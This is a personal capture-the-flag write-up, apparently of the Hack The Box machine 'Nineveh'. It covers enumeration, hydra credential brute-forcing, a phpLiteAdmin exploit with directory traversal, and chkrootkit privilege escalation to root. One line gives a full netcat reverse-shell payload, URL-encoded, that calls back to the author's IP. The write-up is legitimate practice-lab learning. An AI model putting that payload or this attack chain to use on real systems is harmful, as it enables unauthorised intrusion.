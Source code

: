 # Nineveh

Nineveh

Sunday, 6 February 2022

10:36 am

This machine is a Linux machine.

Target IP is 10.10.10.43.

My IP is 10.10.16.5.

&#x20;

Early enumeration reveals there is a HTTP server on it.

&#x20;

!\[\[16\_Nineveh\_image001.png]]

&#x20;

!\[\[16\_Nineveh\_image002.png]]

&#x20;

!\[\[16\_Nineveh\_image003.png]]

&#x20;

!\[\[16\_Nineveh\_image004.png]]

&#x20;

The webpage seems to be just some random basic HTML page.

!\[\[16\_Nineveh\_image005.png]]

&#x20;

Info.php reveals some more information.

!\[\[16\_Nineveh\_image006.png]]

&#x20;

The whole page is full of details about the server and what engines its using. Nothing interesting though.

&#x20;

/department seems to be a log in page...

&#x20;

{width="8.260416666666666in" height="3.8020833333333335in"}

&#x20;

When inspecting the source, there's a hint towards SQL Injection.

!\[\[16\_Nineveh\_image008.png]]

&#x20;

For now, let's take a look at the HTTPS website. SQLMap does not seem to reveal anything, so let's come back to this later.

&#x20;

!\[\[16\_Nineveh\_image009.png]]

&#x20;

Interestingly, nmap vuln script picked up /db on the HTTPS website.

A quick searchsploit reveals that this has multiple vulnerabilities of interest.

&#x20;

!\[\[16\_Nineveh\_image0010.png]]

&#x20;

Anyways on both pages I decided to run hydra based attacks to see if I can get any credentials.

&#x20;

For HTTP:

!\[\[16\_Nineveh\_image0011.png]]

> &#x20;

For HTTPS:

!\[\[16\_Nineveh\_image0012.png]]

&#x20;

We are in!

For the HTTPS page, I can see that we are allowed to create some form of databases.

&#x20;

{width="17.677083333333332in" height="6.6875in"}

&#x20;

The HTTP page seems to be pointing towards fixing the login page and also some kind of secret folder...

&#x20;

{width="9.958333333333334in" height="7.375in"}

&#x20;

Taking the 24044 exploit previously scouted for phpliteadmin, we can see that we are able to create 'databases' and use the database as a reverse shell.

&#x20;

!\[\[16\_Nineveh\_image0015.png]]

&#x20;

Pretty cool! Did the steps but...I'm unable to execute my php code within it.

&#x20;

This has to do with something on the 'secret folder' mentioned at manage.php.

&#x20;

Upon closer inspection, there is actually a **notes** parameter being passed to identify where these notes are...

{width="8.25in" height="1.0625in"}

&#x20;

!\[\[16\_Nineveh\_image0017.png]]

I know the path is as such, but just injecting it in does not seem to execute it.

&#x20;

When fucking around with the directory some more, I managed to do this.

{width="10.208333333333334in" height="7.104166666666667in"}

&#x20;

This means that we have managed to execute our hack.php somehow through directory traversal. After modifying my php shell because of an error, I got this.

{width="9.010416666666666in" height="8.0625in"}

&#x20;

We've found a place we can inject code in, now time for the reverse shell.

rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.16.5+1234+%3E/tmp/f

&#x20;

This was the payload that worked for me.

!\[\[16\_Nineveh\_image0020.png]]

We are now www-data!

&#x20;

Moving to the root directory, I noticed an odd directory called /report

&#x20;

!\[\[16\_Nineveh\_image0021.png]]

Seems to be owned by the user, and interestingly, there's a rootkit on the machine!

&#x20;

!\[\[16\_Nineveh\_image0022.png]]

Anyways, the tool used is called **chkrootkit.**

&#x20;

Searchsploit reveals there is a local privilege escalation method.

{width="7.927083333333333in" height="2.2604166666666665in"}

&#x20;

I followed the instructions of the exploit. This involves writing a quick exploit to gain a root shell!

!\[\[16\_Nineveh\_image0024.png]]

&#x20;

Setting up a listener port, we managed to get a root shell.

!\[\[16\_Nineveh\_image0025.png]]

&#x20;

This box was really difficult for me, and I was lost. I would be lying to say I didn't refer to the solutions for the initial shell because I was lost! Directory traversal is needed to execute that.

&#x20;

I learnt a lot and will definitely refer to these again when I need it.
